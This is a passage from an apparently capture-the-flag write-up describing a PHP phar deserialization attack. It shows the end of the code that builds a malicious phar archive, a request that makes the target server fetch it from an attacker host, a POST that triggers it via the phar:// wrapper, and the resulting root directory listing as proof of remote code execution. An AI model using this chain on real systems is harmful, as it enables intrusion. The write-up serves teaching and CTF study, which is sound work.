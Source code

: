 ```php
    $phar->setMetadata($obj);
    $phar->stopBuffering();

}
```

First, try to access `exploit.phar` URL from the web application.

```
GET http://13.230.134.135/?url=http://IP/exploit.phar
```

Then, do POST request to open `phar://` stream with `exploit.phar` cache location as path.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache
```

And then RCE is successfully done!

```
total 104
drwxr-xr-x  26 root root  1000 Oct 21 11:08 run
drwxrwxrwt   2 root root  4096 Oct 21 06:25 tmp
-rwsr-sr-x   1 root root  8568 Oct 18 19:53 read_flag
drwxr-xr-x  23 root root  4096 Oct 18 19:53 .
drwxr-xr-x  23 root root  4096 Oct 18 19:53 ..
drwx------   5 root root  4096 Oct 18 17:12 root
drwxr-xr-x  90 root root  4096 Oct 18 11:23 etc
dr-xr-xr-x  13 root root     0 Oct 16 07:57 sys
-r--------   1 root root    54 Oct 15 19:49 flag
drwxr-xr-x   4 root root  4096 Oct 15 19:41 home
drwxr-xr-x   3 root root  4096 Oct  9 06:07 boot
lrwxrwxrwx   1 root root    31 Oct  9 06:07 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Oct  9 06:07 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
drwxr-xr-x   2 root root  4096 Oct  9 06:07 sbin
lrwxrwxrwx   1 root root    14 Oct  8 17:14 www -> /var/www/html/
drwxr-xr-x  14 root root  4096 Oct  8 17:13 var
drwxr-xr-x   5 root root  4096 Oct  8 17:06 snap
drwxr-xr-x  15 root root  2980 Oct  8 17:06 dev
dr-xr-xr-x 136 root root     0 Oct  8 17:06 proc
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Sep 12 16:16 lib
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
```
